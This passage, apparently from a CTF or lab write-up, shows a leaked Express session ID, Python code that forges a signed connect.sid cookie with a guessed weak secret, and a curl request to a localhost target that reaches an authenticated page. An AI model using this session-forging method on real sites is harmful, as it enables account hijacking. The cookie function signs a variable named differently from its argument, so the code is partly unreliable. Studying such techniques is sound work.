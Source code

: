 Running this finds a session file pretty quickly:

```log
h
hV
hVh
...
hVh9lfT5PPqBYUwrRoi8wztTx-dIOrk
hVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc
Found session: hVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc
```

Keep in mind that this could be a session of some random other guest visitor or a logged-in administrator. To test it, we should sign the session and attempt to access an authenticated part of the website like `/files`.

```py
def create_cookie(data, secret):
    signature = hmac.new(secret, session.encode(), sha256).digest()
    signature = b64encode(signature).decode().rstrip("=")
    return f"s:{data}.{signature}"

secret = b"1685"
data = "hVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc"
cookie = create_cookie(data, secret)
print(cookie)  # s:hVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc.IcqlHjq5b9lJn8yJtpJMpck1gA15aSpdeVzCvlBUpFI
```

```shell
$ curl -I -H 'Cookie: connect.sid=s:hVh9lfT5PPqBYUwrRoi8wz
tTx-dIOrkc.IcqlHjq5b9lJn8yJtpJMpck1gA15aSpdeVzCvlBUpFI' 'http://localhost:8000/files'

HTTP/1.1 200 OK
set-cookie: connect.sid=s%3AhVh9lfT5PPqBYUwrRoi8wztTx-dIOrkc.IcqlHjq5b9lJn8yJtpJMpck1gA15aSpdeVzCvlBUpFI; Path=/; Expires=Wed, 01 Oct 2341 08:43:42 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
ETag: W/"14db-NaG/KdA0fMlpOh//QKqrrtwvv9c"
X-Powered-By: Express
Date: Sun, 10 Nov 2024 14:57:01 GMT
Content-Length: 0
```

`200 OK`! This shows we leaked a logged-in session and can now access the `/files` application.
